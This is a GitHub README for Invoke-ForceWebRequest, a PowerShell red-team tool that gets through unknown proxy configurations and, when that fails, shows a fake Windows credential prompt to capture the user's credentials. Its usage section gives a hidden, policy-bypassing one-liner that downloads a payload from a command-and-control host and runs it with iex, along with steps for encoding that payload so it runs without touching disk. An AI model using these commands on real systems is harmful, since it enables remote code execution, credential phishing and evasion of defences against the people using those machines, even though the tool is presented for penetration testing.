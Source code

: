 # Invoke-ForceWebRequest (@daniel0x00)
Force HTTP GET in a computer with unknow internet config, trying to download the URL by downloading it directly and if it can't then using default proxy credentials and .pac proxy list. If none o them works, it will trick the user and request his credentials using the Windows default credential prompt.

## Description

Normally this script should be used in a pentest environment, when you're running this code in a target computer where you don't know exactly what is the outbound internet config. Internally, Invoke-ForceWebRequest will use another two functions:
* Invoke-BasicWebRequest: another function writed by me which allow me to create http webrequest with proxy config. Similar (but very basic) to Invoke-WebRequest native PowerShell function (which is only available on PowerShell v3+).
* [Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt): an improved version of this great function wrote by [@enigma0x3](https://github.com/enigma0x3)

## Usage

Using the function in a computer with no proxy or proxy with no authentication
```
PS C:\> . .\Invoke-ForceWebRequest.ps1
PS C:\> Invoke-ForceWebRequest google.com -DummyString html -Verbose
VERBOSE: Trying http get with method #1: simple request...

StatusCode Content
---------- -------
       200 <!doctype html><html itemscope="" itemtype="http://schema.org/WebPage" lang="es"><head><meta content="IE=edge" http-equiv="X-UA-Co...
``` 

Using the function in a computer that have an authenticated proxy, user will be prompt for a valid proxy credentials. Note that user will be prompt until he/she writes a valid credential.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebclient/requesting-credentials.png "cmd and powershell console theme")

When the user writes a valid credential, html will be returned.

![Invoke-ForceWebRequest](http://ferreira.fm/github/invoke-forcewebclient/proxy-enabled.png "cmd and powershell console theme")

 

From red-team point of view: let's say you are able to run some PowerShell code in the target machine through a VBA Macro or a malicious EXE, but you really don't know how the computer is connected to internet. So you run this payload to be sure you will get response from your target:
```
(assuming you wrote the script in the target computer to $env:temp folder)

C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -c "gc $env:temp\Invoke-ForceWebRequest.ps1 | out-string | iex; Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }"

    1: it will download code from URL comandandcontrol.com/payload.txt
    2: then it will check if the content of payload.txt is correct by checking a dummy-string that you know is inside payload.txt
    3: invoke (run) code of payload.txt (if you're a redteamer it will be some malicious code)
``` 

If you do not want to touch disk, you can also encode the entire function and the payload with [@samratashok](https://github.com/samratashok) nishang [Invoke-Encode](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Encode.ps1), something like this:
```
1: Create a .ps1 file with the following, and call it for example 'temp.ps1'
    
    function Invoke-ForceWebRequest { ...... }

    Invoke-ForceWebRequest comandandcontrol.com/payload.txt -DummyString someCode | % { if ($_.StatusCode -eq 200) { $_.Content | out-string | iex } }

2: Encode the entire file with @samratashok Invoke-Encode, which will create an 'encodedcommand.txt' file in your desktop:

    PS C:\> Invoke-Encode -DataToEncode C:\temp.ps1 -OutCommand

3: Copy the content of encodedcommand.txt and then use it in your PS code that you will execute in your target:

    C:\> powershell.exe -ep bypass -windowstyle hidden -nop -noexit -enc "ENCODED_COMMAND"
``` 
